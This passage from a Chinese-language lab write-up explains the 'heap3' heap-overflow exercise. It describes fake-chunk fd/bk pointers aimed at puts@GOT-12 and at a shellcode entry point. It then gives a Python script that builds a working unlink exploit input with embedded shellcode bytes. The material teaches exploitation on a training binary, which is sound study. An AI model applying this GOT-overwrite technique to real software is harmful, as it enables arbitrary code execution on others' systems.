 <img src=".\heap3-analysis-8.png" style="zoom:67%;" />

0x0804b11c是我们设计的fake chunk的\*fd，即\*p，指向puts的跳转地址-12；0x0804b00c是我们设计的fake chunk的\*bk，即\*q，指向shellcode的入口地址。

由堆溢出的内存分布图与正常执行的内存分布图的对照，可构造攻击脚本：

```python
# heap3_a.py
# exploit a overflow
a = "A" * 4
a += "\x68\x64\x88\x04\x08\xc3" # shellcode
a += "A" * 22
# overflow into b
a += "\xf8\xff\xff\xff" # a块的size（伪）
a += "\xfc\xff\xff\xff" # b块的size（伪）

b = "A" * 8
b += "\x1c\xb1\x04\x08" # puts@GOT - 12
b += "\x0c\xc0\x04\x08" # shellcode入口地址

c = "CCCC"

print a + " " + b + " " + c
```
